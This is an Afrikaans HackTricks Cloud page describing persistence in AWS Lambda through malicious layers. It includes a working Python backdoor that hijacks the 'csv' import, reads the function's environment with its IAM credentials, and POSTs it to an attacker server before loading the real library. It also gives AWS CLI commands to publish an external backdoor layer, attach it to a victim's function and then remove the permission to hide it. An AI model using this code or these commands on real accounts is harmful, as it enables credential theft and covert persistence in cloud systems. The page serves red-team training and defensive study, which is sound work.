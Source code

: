 # AWS - Lambda Lae Persistensie

<details>

<summary><strong>Leer AWS hak vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Lambda Lae

'n Lambda-laag is 'n .zip-lêerargief wat **addisionele kode** of ander inhoud **kan bevat**. 'n Laag kan biblioteke, 'n [aangepaste uitvoering](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), data, of opsetlêers bevat.

Dit is moontlik om tot **vyf lêers per funksie** in te sluit. Wanneer jy 'n laag in 'n funksie insluit, word die **inhoud onttrek na die `/opt`**-gids in die uitvoeringsomgewing.

Standaard is die **lêers** wat jy skep **privaat** vir jou AWS-rekening. Jy kan kies om 'n laag met ander rekeninge te **deel** of om die laag **publiek te maak**. As jou funksies 'n laag verbruik wat deur 'n ander rekening gepubliseer is, kan jou funksies **voortgaan om die laagweergawe te gebruik nadat dit uitgevee is, of nadat jou toestemming om die laag te gebruik, herroep is**. Jy kan egter nie 'n nuwe funksie skep of funksies bywerk met 'n uitgevee laagweergawe nie.

Funksies wat as 'n houerbeeld ontplooi is, gebruik nie lêers nie. In plaas daarvan pak jy jou verkose uitvoering, biblioteke, en ander afhanklikhede in die houerbeeld in wanneer jy die beeld bou.

### Python laaipad

Die laaipad wat Python in lambda sal gebruik, is die volgende:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Kyk hoe die **tweede** en derde **posisies** beset word deur gide waar **lambda-lae** hul lêers uitpak: **`/opt/python/lib/python3.9/site-packages`** en **`/opt/python`**

{% hint style="danger" %}
As 'n aanvaller daarin slaag om 'n gebruikte lambda **laag te agterdeur** of **een by te voeg** wat **willekeurige kode uitvoer wanneer 'n algemene biblioteek gelaai word**, sal hy in staat wees om skadelike kode uit te voer met elke lambda-aanroeping.
{% endhint %}

Daarom is die vereistes:

* **Kontroleer biblioteke** wat deur die slagoffers se kode **gelaai** word
* Skep 'n **proksi-biblioteek met lambda-lae** wat **aangepaste kode uitvoer** en die oorspronklike biblioteek **laai**.

### Voorafgelaai biblioteke

{% hint style="warning" %}
Toe ek hierdie tegniek misbruik het, het ek 'n probleem gevind: Sommige biblioteke is **reeds gelaai** in die python-uitvoertyd wanneer jou kode uitgevoer word. Ek het verwag om dinge soos `os` of `sys` te vind, maar selfs die `json`-biblioteek was gelaai.\
Om hierdie volhardingstegniek te misbruik, moet die kode 'n nuwe biblioteek laai wat nie gelaai is wanneer die kode uitgevoer word nie.
{% endhint %}

Met 'n python-kode soos hierdie is dit moontlik om die **lys van biblioteke wat vooraf gelaai is** binne die python-uitvoertyd in lambda te verkry:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
En hierdie is die **lys** (kontroleer of biblioteke soos `os` of `json` reeds daar is)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
En hierdie is die lys van **biblioteke** wat **lambda standaard geïnstalleer het**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Laag Agterdeur

In hierdie voorbeeld gaan ons aanneem dat die geteikende kode die invoer van **`csv`** invoer. Ons gaan die invoer van die `csv`-biblioteek **agterdeur**.

Om dit te doen, gaan ons die **csv-gids skep** met die lêer **`__init__.py`** daarin op 'n pad wat deur lambda gelaai word: **`/opt/python/lib/python3.9/site-packages`**\
Dan, wanneer die lambda uitgevoer word en probeer om **csv** te laai, sal ons **`__init__.py`-lêer gelaai en uitgevoer word**.\
Hierdie lêer moet:

* Ons lading uitvoer
* Die oorspronklike csv-bibliotheek laai

Ons kan beide doen met:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Dan, skep 'n zip met hierdie kode in die pad **`python/lib/python3.9/site-packages/__init__.py`** en voeg dit as 'n lambda-laag by.

Jy kan hierdie kode vind op [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)

Die geïntegreerde payload sal **die IAM-kredos na 'n bediener stuur DIE EERSTE KEER wat dit aangeroep word of NÁ 'n herstel van die lambda-houer** (verandering van kode of koue lambda), maar **ander tegnieke** soos die volgende kan ook geïntegreer word:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Eksterne Lêers

Let daarop dat dit moontlik is om **lambda-lêers van eksterne rekeninge** te gebruik. Verder kan 'n lambda 'n laag van 'n eksterne rekening gebruik selfs al het dit nie toestemmings nie.\
Let ook daarop dat die **maksimum aantal lêers wat 'n lambda kan hê 5 is**.

Daarom, om die veelsydigheid van hierdie tegniek te verbeter, kan 'n aanvaller:

* 'n Bestaande laag van die gebruiker agterdeur
* **Skep** 'n **laag** in **sy rekening**, gee die **slagofferrekening toegang** om die laag te gebruik, **konfigureer** die **laag** in die slagoffers Lambda en **verwyder die toestemming**.
* Die **Lambda** sal steeds in staat wees om die laag te gebruik en die slagoffer sal nie 'n maklike manier hê om die kode van die lae af te laai nie (behalwe om 'n omgekeerde dop binne die lambda te kry)
* Die slagoffer sal nie eksterne lêers sien wat met **`aws lambda list-layers`** gebruik word nie

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag. 

</details>
